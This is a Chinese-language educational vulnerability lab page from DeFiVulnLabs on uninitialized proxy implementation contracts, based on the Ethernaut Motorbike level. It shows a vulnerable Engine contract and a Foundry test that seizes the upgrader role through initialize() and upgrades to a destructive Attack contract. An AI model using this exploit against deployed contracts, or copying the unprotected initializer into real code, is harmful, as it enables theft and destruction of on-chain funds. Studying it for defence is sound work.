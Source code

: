 # 未初始化的状态变量  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  
**名称：** 未初始化的变量漏洞  
**描述：**   
未初始化的本地存储变量可能包含合约中其他存储变量的值;  
这一事实可能会导致无意的漏洞，或被故意利用。  


**参考：**   
https://blog.dixitaditya.com/ethernaut-level-25-motorbike  


**合约：**  
```
contract Engine is Initializable {
    //“eip1967.proxy.implementation”的keccak-256哈希值减1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    //将代理的实现升级为 `newImplementation`
    // 随后执行函数调用
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```  

**如何测试：**  
forge test --contracts src/test/Uninitialized_variables.sol -vvvv  
```
// 用于测试合约未初始化漏洞的函数。
function testUninitialized() public {
    // 创建了一个新的Engine和Motorbike合约实例
    // EngineContract的地址被传递给MotorbikeContract的构造函数
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // 创建Attack合约的新实例
    AttackContract = new Attack();

    // 打印EngineContract的upgrader。由于EngineContract 尚未初始化，upgrader可能是零地址
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // 调用EngineContract的‘initialize()’函数
    // 由于EngineContract没有初始化，所以谁都可以调用这个函数成为“升级者”
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // 打印EngineContract的upgrader。现在，它将是调用“initialize()”的地址
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // 将代理（EngineContract）的实现升级为恶意合约（AttackContract）并调用‘attack()’
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // 打印“漏洞攻击完成”
    console.log("Exploit completed");

    //由于EngineContract被‘attack()’破坏，因此下一次调用将失败。
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
``` 
**红框：** 通过初始化改变逻辑契约  
![Alt text](image-16.png)
